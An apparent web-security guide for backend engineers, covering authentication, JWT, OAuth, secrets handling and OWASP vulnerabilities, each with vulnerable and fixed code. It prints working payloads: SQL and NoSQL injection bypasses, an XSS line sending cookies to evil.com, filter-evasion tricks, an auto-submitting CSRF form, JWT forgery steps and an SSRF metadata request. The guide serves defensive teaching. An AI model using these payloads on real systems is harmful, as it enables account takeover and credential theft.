

🔐 Security
Authentication, authorization, the vulnerabilities that actually get exploited, and how to handle secrets and transport correctly.
Authentication & Authorization
Authentication (AuthN) = who are you? Authorization (AuthZ) = what are you allowed to do? They're often conflated but are distinct concerns. A valid JWT tells you who the user is. A role check tells you if they can access a resource. Both are required.
Session-Based Authentication
The classic model: user logs in, server creates a session record in the database or Redis, and sets a session cookie (Set-Cookie: session_id=abc123; HttpOnly; Secure; SameSite=Strict). On each request, the browser sends the cookie, the server looks up the session, and if valid, processes the request. Server-side state: simple to revoke (delete the session record), but requires a session store that all instances can access — horizontal scaling requires a shared Redis or database, not local memory.
JWT (JSON Web Tokens)
A JWT is a signed, base64-encoded JSON object. Structure: header.payload.signature. The header specifies the algorithm (RS256, HS256). The payload contains claims: sub (subject/user ID), exp (expiration), iat (issued at), and any custom claims (roles, tenant ID). The signature lets any service verify the token without calling the issuing server — this is the key architectural advantage.
// Payload (decoded)
{
"sub": "user_789",
"exp": 1712000000,
"iat": 1711996400,
"roles": ["editor"],
"org_id": "org_abc"
}JWT tradeoffs: stateless verification scales well — any service instance can validate a JWT with the public key, no shared session store needed. But you can't revoke a JWT before it expires (the token is self-contained). Solutions: short expiry (15 minutes) + refresh tokens (longer-lived, stored server-side), or a token blocklist in Redis (reintroduces centralized state but keeps token validation fast). Never put sensitive data in JWT payloads — they're base64-encoded, not encrypted (anyone can decode them). Use RS256 (asymmetric) for multi-service architectures so services can verify without knowing the signing secret.
OAuth 2.0
OAuth 2.0 is an authorization framework — not an authentication protocol — that allows a user to grant a third party limited access to their resources without sharing credentials. The core flows:
- Authorization Code flow: the standard flow for web and mobile apps. User is redirected to the authorization server, authenticates there, and is redirected back to your app with a short-lived authorization code. Your server exchanges the code for access and refresh tokens. The code is single-use and short-lived. Use PKCE (Proof Key for Code Exchange) even for server-side apps — it prevents authorization code interception.
- Client Credentials flow: for machine-to-machine (M2M) authentication. No user involved. Your service authenticates with client_id and client_secret and receives an access token. Use for: service-to-service API calls, scheduled jobs, background workers.
- Implicit flow: deprecated. Returned tokens directly in the URL fragment — vulnerable to token leakage. Never use this.
- Resource Owner Password flow: user sends credentials directly to your app, which exchanges them for tokens. Only acceptable if you fully own both the client and authorization server. Otherwise, don't use it.

OpenID Connect (OIDC)
OIDC is an identity layer on top of OAuth 2.0 that adds authentication. OAuth 2.0 gives you authorization (what you can do); OIDC adds an ID token (JWT) that tells you who the user is. Most "Sign in with Google/GitHub/etc." implementations use OIDC. The ID token contains user identity claims (sub, email, name, picture). The access token is for calling APIs on behalf of the user.
Password Storage
Never store plaintext passwords. Never store MD5 or SHA-1 hashes — they're fast, which makes them easy to brute-force with a GPU. Use purpose-built, slow password hashing algorithms: bcrypt, scrypt, or Argon2id (winner of the Password Hashing Competition — the modern recommendation). These are designed to be slow and memory-hard. Configure the work factor/cost parameter so that hashing takes ~100–200ms on your hardware — expensive enough to make brute force impractical, cheap enough to not impact your login endpoint. Always salt: good password hashing libraries do this automatically; if yours doesn't, find a better library.
Role-Based Access Control (RBAC)
Assign users to roles; roles have permissions; check permissions at the enforcement point. Simple and effective for most applications. Coarser-grained than attribute-based access control (ABAC), which checks contextual attributes (user's department = resource's required department). For most backends: implement RBAC, enforce at the service/handler level (not just UI), and check authorization on every request — don't trust the frontend's representation of what the user can see.
Web Vulnerabilities (OWASP Top 10)
The OWASP Top 10 is a list of the most critical web application security risks. These aren't theoretical — they're what's actually being exploited in production systems right now. Each vulnerability class below includes a real attack narrative, an exploit walkthrough, and concrete defense patterns. As a backend engineer, every line of code you ship is the last line of defense.
SQL Injection
The attack narrative. An attacker is probing your login form. They enter admin'-- as the username and anything as the password. Your concatenated query becomes SELECT * FROM users WHERE username = 'admin'--' AND password = '...' — the double-dash comments out the password check entirely. They're now authenticated as admin without knowing the password.
// Vulnerable — string interpolation, never do this
const query = `SELECT * FROM users WHERE email = '${userInput}'`;
// Classic bypass: userInput = ' OR '1'='1
// Query becomes: SELECT * FROM users WHERE email = '' OR '1'='1'
// Returns every row in the table
// Authentication bypass: userInput = admin'--
// Query becomes: SELECT * FROM users WHERE email = 'admin'--' AND password = '...'
// Password check is commented out — attacker logs in as admin
// Safe — parameterized query (database driver separates structure from data)
const user = await db.query(
'SELECT * FROM users WHERE email = $1',
[userInput]
);Blind SQLi (boolean-based). Many injections return no visible data — the application just shows a generic error. Attackers use boolean-based blind injection to extract data one bit at a time. The query 1 AND SUBSTRING(password,1,1)='a' returns differently depending on whether the first character of the password is 'a'. By iterating over characters and positions, the entire password hash is reconstructed — slowly but completely. Automated tools like sqlmap do this in minutes.
-- Boolean-based blind injection probing the first char of a password hash
-- Attacker sends these as separate requests and compares response sizes/times:
SELECT * FROM users WHERE id = 1 AND SUBSTRING(password,1,1)='a' -- different response
SELECT * FROM users WHERE id = 1 AND SUBSTRING(password,1,1)='b' -- different response
-- ... iterates through all characters until the full hash is recoveredSecond-order injection. The most insidious variant. User input is safely parameterized on write, stored in the database, and later retrieved and concatenated into a different query. The initial insert is safe; the second query is the vulnerability. Example: a username of admin'-- is stored correctly. Later, a password-change feature retrieves the username and interpolates it into a raw SQL string without re-parameterizing.
NoSQL injection. MongoDB is not immune. If you pass request body data directly into a query object, an attacker can send JSON operators instead of string values. Sending {"password": {"$gt": ""}} matches any password greater than an empty string — which is every password. This bypasses authentication entirely.
// Vulnerable MongoDB — req.body.password passed directly as a query value
const user = await User.findOne({
username: req.body.username,
password: req.body.password // attacker sends: {"$gt": ""}
});
// Query becomes: { username: "admin", password: { $gt: "" } }
// Matches the admin user regardless of actual password
// Fixed — explicitly cast to string, or use a schema validator
const user = await User.findOne({
username: String(req.body.username),
password: String(req.body.password)
});Defenses. Always use parameterized queries or prepared statements — the database driver then treats user input as pure data, never as executable SQL. ORMs use parameterization by default, but every ORM has raw query escape-hatches (.query(), .raw(), Sequelize.literal()) that bypass this protection. Never use them with user-supplied input. For NoSQL, validate and cast all query parameters explicitly; never spread req.body directly into a query object. Add a WAF as a secondary layer, but do not rely on it as the primary control.
Cross-Site Scripting (XSS)
The attack narrative — British Airways (Magecart, 2018). Attackers injected 22 lines of JavaScript into British Airways' payment page. The script ran in every customer's browser, silently exfiltrated form field contents (name, address, card number, CVV) to an attacker-controlled server, and did so for 15 days. Around 500,000 customers were affected. The injected script was indistinguishable from legitimate page behavior — it ran with full DOM access because it executed in the same origin as the page. This is the real-world stakes of XSS.
Stored XSS. Attacker submits a comment containing <script>document.location='https://evil.com/steal?c='+document.cookie</script>. Your server stores it in the database. Every user who loads the page runs the script in their browser. Because the script is same-origin, it has full access to cookies, localStorage, the DOM, and can make authenticated API calls on behalf of the victim.
Reflected XSS. The payload lives in a URL parameter: https://yoursite.com/search?q=<script>...</script>. Your server reflects the parameter value into the HTML response without escaping. Attacker sends the crafted URL to the victim; victim clicks it; their browser executes the script. Often delivered via phishing email.
DOM-based XSS. The server never sees the payload — it lives in the URL fragment (#) and is processed entirely by client-side JavaScript. No server-side sanitization can catch it. Example: your SPA reads location.hash and writes it into the DOM with innerHTML. Attacker sends https://yoursite.com/#<img src=x onerror=alert(1)>. The server returns the normal page; the client-side script injects the payload into the DOM.
// Vulnerable — DOM-based XSS via innerHTML
const searchTerm = location.hash.slice(1); // reads from URL fragment
document.getElementById('results-heading').innerHTML =
'Results for: ' + searchTerm; // attacker controls searchTerm
// Safe — use textContent instead of innerHTML for text content
document.getElementById('results-heading').textContent =
'Results for: ' + searchTerm;
// If you must insert HTML, use a sanitizer library
import DOMPurify from 'dompurify';
element.innerHTML = DOMPurify.sanitize(userInput);Bypassing naive filters. Blocklist-based filters are reliably defeated. If you block <script>, attackers use event handlers: <img src=x onerror=alert(1)>. If you block onerror, they use <svg onload=alert(1)>. If you strip javascript:, they use javascript: (HTML entity encoding). Filter evasion is a solved problem for attackers. The correct approach is allowlist-based output encoding, not blocklist-based stripping.
Defenses. (1) Escape all output: HTML-encode user-supplied content before rendering (& → &, < → <, etc.). Modern templating engines (React JSX, Angular, Jinja2) do this automatically — the unsafe escape-hatches are dangerouslySetInnerHTML, [innerHTML], and Markup(). (2) Content Security Policy: Content-Security-Policy: default-src 'self'; script-src 'self' cdn.example.com tells browsers to refuse to execute scripts from any origin not on the allowlist. A strict CSP is the most effective defense against script injection. (3) HttpOnly cookies: prevents JavaScript from reading session cookies even if XSS executes. (4) Use DOMPurify for cases where you genuinely need to accept and render HTML (rich text editors).
Cross-Site Request Forgery (CSRF)
The attack narrative. Your banking app uses cookie-based sessions. An attacker creates a webpage on evil.com that contains a hidden form targeting your bank's transfer endpoint. When a logged-in user visits evil.com, their browser automatically includes the bank's session cookie on the cross-site request, and the transfer goes through — without the user clicking anything.
Here is exactly what the attacker's HTML looks like:
<!-- Attacker hosts this on evil.com -->
<html>
<body onload="document.getElementById('csrf-form').submit()">
<form id="csrf-form"
action="https://yourbank.com/api/transfer"
method="POST"
style="display:none">
<input name="to_account" value="attacker_account_9999">
<input name="amount" value="5000">
</form>
</body>
</html>
<!-- Page loads → form auto-submits → bank sees valid session cookie → transfer executes -->Defense 1: SameSite cookies. Set-Cookie: session=abc123; SameSite=Strict; HttpOnly; Secure. With SameSite=Strict, the browser will not send the cookie on any cross-site request — the forged form submission above arrives with no session cookie and is rejected. SameSite=Lax is slightly more permissive (allows top-level navigations like clicking a link) but still blocks cross-site POST requests. This is now the primary CSRF defense for modern browsers. Set it on every session cookie.
Defense 2: CSRF tokens. Server generates a cryptographically random token, stores it in the session, and embeds it in every form as a hidden field. On POST, the server validates the submitted token against the session-stored token. The attacker's forged form cannot include this token because they can't read your site's HTML (same-origin policy). The double-submit cookie pattern is a stateless variant: the token is also set as a cookie; the client must submit it as both a cookie and a form field; the server checks they match. This works because an attacker can't read or set cookies for your domain.
// Server-side: generate and validate CSRF token
app.get('/transfer-form', (req, res) => {
const csrfToken = crypto.randomBytes(32).toString('hex');
req.session.csrfToken = csrfToken;
res.render('transfer', { csrfToken }); // embedded in hidden form field
});
app.post('/api/transfer', (req, res) => {
if (req.body.csrfToken !== req.session.csrfToken) {
return res.status(403).json({ error: 'Invalid CSRF token' });
}
// process transfer
});Defense 3: Check the Origin header. For AJAX requests, reject any request where the Origin or Referer header doesn't match your domain. Browsers always send Origin on cross-origin requests and it cannot be forged by JavaScript. This is a good secondary control. Note: APIs using Authorization: Bearer <token> headers are not CSRF-vulnerable — browsers don't automatically attach Authorization headers on cross-origin requests.
Broken Authentication & JWT-Specific Attacks
Classic broken auth issues. Predictable session tokens (use crypto.randomBytes(32), not sequential IDs or UUIDs v4 with low entropy sources); session fixation (regenerate the session ID immediately after login — an attacker who sets your session ID before login can reuse it after); missing brute-force protection on login (rate limit by IP and by account, add exponential backoff, consider CAPTCHA after N failures); password reset flaws (tokens that don't expire, tokens that are reusable, reset links sent to the wrong address).
JWT algorithm confusion: the alg:none attack. The JWT spec originally allowed "alg": "none", meaning no signature required. Some early JWT libraries accepted this. An attacker decodes the JWT (it's just base64), changes the payload claims ("role": "admin"), sets "alg": "none", removes the signature, and submits it. A naive verifier accepts it. Fix: explicitly specify which algorithm(s) you accept in your verification code — never rely on the algorithm field in the token itself to determine how to verify it.
// Vulnerable — algorithm taken from the token header
jwt.verify(token, secret); // some libraries read alg from the token
// Fixed — explicitly specify the algorithm
jwt.verify(token, publicKey, { algorithms: ['RS256'] });
// Only RS256 signatures are accepted; "alg:none" tokens are rejectedJWT algorithm confusion: RS256 → HS256. A more sophisticated attack. Your server uses RS256 (asymmetric): signs with a private key, verifies with a public key. The public key is publicly known. An attacker changes the token's alg header from RS256 to HS256 (symmetric HMAC) and signs the forged token using your public key as the HMAC secret. A library that trusts the algorithm from the token header will then attempt HMAC verification using the public key as the secret — and succeed. Fix: same as above — hardcode the expected algorithm in your verification call, never read it from the token.
Timing attacks on token comparison. String comparison in most languages short-circuits: it returns false as soon as the first mismatched character is found. This means a comparison of "abc" vs "abd" takes slightly longer than "abc" vs "xyz" — the first two share a prefix. Over millions of requests, an attacker can statistically measure these timing differences and reconstruct a valid token one character at a time. Fix: always use constant-time comparison for secrets and tokens.
// Vulnerable — short-circuit string comparison
if (submittedToken === storedToken) { ... }
// Fixed — constant-time comparison (Node.js)
const crypto = require('crypto');
if (!crypto.timingSafeEqual(
Buffer.from(submittedToken),
Buffer.from(storedToken)
)) {
return res.status(401).json({ error: 'Invalid token' });
}Insecure Direct Object References (IDOR)
The attack narrative — Instagram (2012). A researcher discovered that Instagram's private photo delete endpoint accepted a photo ID with no ownership check. He could delete any user's photo by substituting the photo ID in the request. At Instagram's scale at the time, a script iterating through sequential IDs could have wiped arbitrary photos from any account. The bug was a textbook IDOR: the endpoint authenticated the user but never checked whether the resource belonged to them.
The core mistake. Authentication (are you logged in?) and authorization (do you own this resource?) are different checks. Most IDOR bugs pass the first check and skip the second entirely.
// Vulnerable — authenticates the user but doesn't check ownership
app.get('/api/invoices/:id', authenticate, async (req, res) => {
const invoice = await Invoice.findById(req.params.id);
// Any authenticated user can read any invoice by guessing the ID
res.json(invoice);
});
// Fixed — ownership enforced in the query itself
app.get('/api/invoices/:id', authenticate, async (req, res) => {
const invoice = await Invoice.findOne({
id: req.params.id,
owner_id: req.user.id // constraint binds the resource to the requester
});
if (!invoice) return res.status(404).json({ error: 'Not found' });
// 404, not 403 — don't reveal whether the resource exists at all
res.json(invoice);
});UUIDs don't fix it. Switching from sequential integer IDs to UUIDs (e.g., /api/invoices/a3f2c1d4-...) makes IDs harder to guess, but this is security through obscurity. If the ID is ever exposed in a URL, an email, a log file, or another user's response, an attacker has it. The ownership check is the only reliable defense. UUIDs also prevent enumeration attacks (attackers can't iterate 12345, 12346, 12347...), so they're still worth using — just don't mistake them for an authorization control.
Testing systematically. Create two accounts (User A and User B). With User A, create a resource and note its ID. Log in as User B and attempt to access, modify, and delete User A's resource. Do this for every resource endpoint. Automated scanners miss IDOR because the vulnerability requires understanding business logic — only you know which resources should be scoped to which users. Include IDOR checks in code review checklists for every new endpoint.
Server-Side Request Forgery (SSRF)
What it is. SSRF occurs when your server makes an HTTP request to a URL supplied (directly or indirectly) by the user, and an attacker supplies an internal URL instead of the intended external one. Your server, running inside the network perimeter, has access that external clients do not — internal services, admin interfaces, cloud provider metadata endpoints, and other resources protected only by network position.
The cloud metadata attack. Every major cloud provider exposes an instance metadata service at a non-routable IP: http://169.254.169.254/ on AWS, GCP, and Azure. This endpoint returns sensitive configuration data including IAM credentials. No authentication is required — only network proximity. If your server fetches a user-supplied URL without restriction, an attacker submits http://169.254.169.254/latest/meta-data/iam/security-credentials/ and receives temporary AWS access keys with whatever permissions the EC2 instance role has.
// Vulnerable — your server fetches a URL the user controls
app.post('/api/fetch-preview', async (req, res) => {
const { url } = req.body;
// Attacker sends: url = "http://169.254.169.254/latest/meta-data/iam/security-credentials/my-role"
const response = await fetch(url); // your server makes the request from inside the network
const data = await response.json();
res.json(data); // returns AWS IAM credentials to the attacker
});Real incidents. The Capital One breach (2019) exploited SSRF via a misconfigured WAF to access the EC2 metadata endpoint and obtain IAM credentials, ultimately exfiltrating over 100 million customer records. Slack disclosed an SSRF vulnerability in 2021 where a webhook URL could be set to an internal address, allowing an attacker to probe internal services. SSRF is consistently underestimated because the vulnerable code looks like normal, reasonable functionality — fetching URLs is common in link preview features, webhook systems, and URL-based integrations.
Defenses.
- Allowlist external URLs. If your use case is narrow (e.g., fetching Open Graph previews from a set of known domains), validate against an explicit allowlist of allowed hostnames. Reject anything else.
- Resolve and validate before fetching. DNS-resolve the hostname before making the request. Block requests to RFC 1918 private ranges (10.x.x.x, 172.16.x.x, 192.168.x.x), loopback (127.0.0.1), and link-local (169.254.x.x). Be aware of DNS rebinding attacks: the hostname resolves to a public IP during validation but resolves to an internal IP for the actual request. Re-validate after resolution.
- Use IMDSv2 on AWS. Instance Metadata Service version 2 requires a PUT request with a TTL header before the metadata endpoint responds. This prevents most SSRF exploits of the metadata service because the PUT step doesn't work through naive HTTP forwarding.
- Network-layer controls. Egress firewall rules that prevent your application servers from reaching internal services or the metadata IP. Defense in depth: even if SSRF exists in code, the network layer blocks the request.
Security Misconfiguration
Security misconfiguration is the most prevalent finding in real penetration tests — not because it's sophisticated, but because it requires no exploitation skill. The vulnerability is the configuration itself. Three high-impact examples:
.env file exposure. A developer deploys an application with the .env file in a web-accessible directory. An attacker requests https://yoursite.com/.env and receives database passwords, API keys, JWT secrets, and OAuth credentials in plaintext. This is not hypothetical — automated scanners constantly probe for exposed .env, .git, and configuration files. Add .env to .gitignore and configure your web server to deny requests to dotfiles. Never put environment files in public directories.
GraphQL introspection in production. GraphQL's introspection query lets any client ask the API for its complete schema: every type, every field, every query, and every mutation. This is invaluable during development. In production, it hands an attacker a full map of your API surface — undocumented internal mutations, admin-only operations, fields that reveal internal data models. Disable introspection in production environments. Most GraphQL server libraries have a single configuration flag for this.
// Apollo Server — disable introspection in production
const server = new ApolloServer({
typeDefs,
resolvers,
introspection: process.env.NODE_ENV !== 'production',
});
// Also consider field-level authorization — introspection disabled
// doesn't protect against direct queries to privileged resolversSpring Boot Actuator endpoints. Spring Boot's Actuator module exposes management endpoints: /actuator/health, /actuator/env, /actuator/beans, /actuator/heapdump. The /actuator/env endpoint returns all environment variables including secrets. The /actuator/heapdump endpoint returns a full JVM heap dump — an attacker can extract secrets, session tokens, and database credentials from the heap dump offline. These endpoints must be secured or disabled in production. A misconfigured Spring Boot app with Actuator exposed to the internet is a critical finding.
Broader misconfiguration checklist:
- Default credentials on databases, admin panels, and third-party services — change them before the first deploy
- Verbose error responses in production — stack traces reveal internal paths, library versions, and sometimes source code. Return generic errors to clients; log detail internally
- CORS misconfiguration:
Access-Control-Allow-Origin: *on authenticated endpoints, or reflecting theOriginheader without validation, allows any website to make credentialed cross-origin requests - Unnecessary services and ports exposed: every open port is attack surface. Firewall everything except what's explicitly required
- Missing security headers: run your site through securityheaders.com — it's a five-minute audit
- S3 bucket or cloud storage public-read misconfiguration: a common cause of mass data exposure
Mass Assignment
The attack. Your user-update endpoint does Object.assign(user, req.body) or the ORM equivalent. A user sends {"name": "Alice", "email": "alice@example.com", "role": "admin", "isVerified": true}. Your server copies every field from the request body onto the user model and saves it. The attacker has just promoted themselves to admin and bypassed email verification in a single request.
// Vulnerable — blind assignment from request body
app.put('/api/users/:id', authenticate, async (req, res) => {
const user = await User.findById(req.params.id);
Object.assign(user, req.body); // all fields overwritten, including role, isAdmin, isVerified
await user.save();
res.json(user);
});
// Fixed — explicit allowlist of updatable fields
const ALLOWED_USER_FIELDS = ['name', 'email', 'bio', 'avatarUrl'];
app.put('/api/users/:id', authenticate, async (req, res) => {
const user = await User.findById(req.params.id);
for (const field of ALLOWED_USER_FIELDS) {
if (req.body[field] !== undefined) {
user[field] = req.body[field];
}
}
await user.save();
res.json(user);
});Rails popularized this vulnerability with its attr_accessible / strong_parameters history — mass assignment was the root cause of a GitHub vulnerability in 2012 that allowed an attacker to push to any repository. The fix is always an explicit allowlist of which fields are permitted from user input. Apply this discipline to every endpoint that writes to a model: never pass req.body or request parameters directly to an ORM save or update method without filtering first.
Transport & Secrets
Even correct authentication logic is useless if secrets leak or traffic is intercepted. This section covers the operational layer: how to handle credentials, keys, and certificates correctly.
Secrets Management
Secrets include: database passwords, API keys, JWT signing secrets, OAuth client secrets, TLS private keys, and encryption keys. The rules:
- Never commit secrets to version control. Once a secret is in git history, it should be treated as compromised — even if you delete it, it's in the commit history forever. Use
.gitignorefor.envfiles. Tools like GitGuardian or GitHub's secret scanning alert on leaked secrets, but prevention is better than detection. - Use environment variables or a secrets manager. Environment variables (injected at deploy time) work for simple cases. For production: use a dedicated secrets manager — AWS Secrets Manager, HashiCorp Vault, GCP Secret Manager, or Doppler. These provide: audit logging of who accessed what, automatic rotation, fine-grained access control, and versioning.
- Rotate secrets regularly. Especially after team member offboarding, after an incident, or on a schedule. Short-lived secrets (JWT with 15-minute expiry, short-TTL database credentials) limit blast radius from a leak.
- Different secrets per environment. Never use the same database password in development and production. A leaked dev secret shouldn't grant prod access.
Encryption at Rest
Data at rest should be encrypted. Database-level encryption (transparent data encryption — TDE) means the raw database files on disk are encrypted. This protects against physical disk theft and some cloud provider access scenarios but doesn't protect against a compromised database user — the DB itself decrypts transparently. Application-level encryption (encrypt specific fields in code before storing) protects against database compromises but means you can't query on encrypted fields. Use AES-256-GCM for symmetric encryption. Never roll your own crypto — use a well-audited library.
HTTPS & Certificate Management
Always HTTPS. There is no meaningful case for unencrypted HTTP in 2024. Certificate management has become largely automated via Let's Encrypt (free, automated, 90-day certs) and ACME protocol support in Nginx, Caddy, and most cloud load balancers. Caddy in particular handles cert provisioning and renewal with zero configuration — a strong default choice.
Certificate Transparency (CT): all publicly-trusted CAs must log all issued certs to public CT logs. Your browser checks that the cert was logged. This makes it possible to detect mis-issued certs (an attacker getting a cert for your domain) quickly. Tools like certspotter.com can alert you to unexpected certs issued for your domains.
Security Headers
A set of HTTP response headers that tell browsers how to handle your content securely. Set all of these:
Strict-Transport-Security: max-age=31536000; includeSubDomains— force HTTPS for 1 yearX-Content-Type-Options: nosniff— prevent MIME type sniffingX-Frame-Options: DENY— prevent clickjacking (or use CSP'sframe-ancestors)Content-Security-Policy: default-src 'self'— restrict script/style sourcesReferrer-Policy: strict-origin-when-cross-origin— control what's sent in Referer headerPermissions-Policy: camera=(), microphone=()— disable browser features you don't use
Test your headers at securityheaders.com. Automated via your reverse proxy (Nginx/Caddy configuration) rather than application code — so they apply to all responses.
Rate Limiting & DDoS Mitigation
Rate limiting protects against brute-force attacks, credential stuffing, and resource abuse. Implement at: the authentication endpoint (10 attempts/minute per IP + account lockout after 10 failures), the API level (100 requests/minute per token), and for resource-intensive operations (export endpoints, report generation). Implement in your API gateway or reverse proxy rather than application code, so it applies before your service processes anything.
For DDoS: Cloudflare and AWS Shield handle volumetric attacks at the network layer. Your job is to ensure your application doesn't have expensive-to-compute endpoints exposed without authentication (avoid unauthenticated endpoints that trigger large DB scans).
